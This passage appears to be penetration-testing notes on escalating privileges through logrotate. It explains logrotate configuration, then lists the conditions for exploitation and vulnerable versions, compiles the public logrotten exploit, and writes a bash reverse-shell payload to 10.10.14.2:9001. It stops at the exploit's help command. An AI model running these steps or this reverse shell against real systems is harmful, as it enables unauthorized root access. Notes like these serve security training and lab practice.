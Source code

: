 ```

-  the size of the log file,
-  its age,
-  and the action to be taken when one of these factors is reached.

This tool is usually started periodically via cron and controlled via the configuration file /etc/logrotate.conf.
      
To force a new rotation on the same day, we can set the date after the individual log files in the status file /var/lib/logrotate/status or use the -f/--force option:

We can find the corresponding configuration files in /etc/logrotate.d/ directory.

      $ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}

### exploitation

To exploit logrotate, we need some requirements that we have to fulfill.

- we need write permissions on the log files
      
- logrotate must run as a privileged user or root
      
- vulnerable versions:
    -    3.8.6
    -    3.11.0
    -    3.15.0
    -    3.18.0


```
$ git clone https://github.com/whotwagner/logrotten.git

$ cd logrotten

$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. 


```$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload```

before running the exploit, we need to determine which option logrotate uses in logrotate.conf (create or compress)

```$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"```


```
$ ./logrotten -h
      